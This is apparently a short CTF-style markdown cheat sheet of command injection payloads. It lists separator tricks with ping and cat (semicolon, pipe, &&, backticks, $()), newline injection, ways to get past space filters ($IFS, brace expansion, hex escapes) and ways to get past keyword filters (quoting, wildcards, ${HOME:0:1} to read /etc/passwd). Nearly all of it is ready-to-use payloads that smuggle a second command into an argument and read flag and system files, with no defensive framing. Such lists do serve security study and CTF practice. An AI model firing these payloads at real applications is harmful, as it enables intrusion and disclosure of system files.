 # Command Injection
- Basic
  - $ ping 127.0.0.1 `; id`
  - $ ping 127.0.0.1 `| id`
  - $ ping 127.0.0.1 `&& id`
  - $ ping '127.0.0.1`'; id #` ' 
  - $ ping "`$(id)`"
  - $ cat mewo.txt `$(id)`
  - $ cat mewo.txt `` `id` ``
  - Newline (0x0A, \n, %0A)
- Space Bypass
  - $ cat`<TAB>`/flag
  - $ cat\</flag
  - $ {cat,/flag}
  - $ cat$IFS/flag
  - $ X=$'cat\x20/flag'&&$X
- Keyword Bypass
  - $ cat /f'la'g
  - $ cat /f"la"g
  - $ cat /f\l\ag
  - $ cat /f\*
  - $ cat /f?a?
  - $ cat ${HOME:0:1}etc${HOME:0:1}passwd
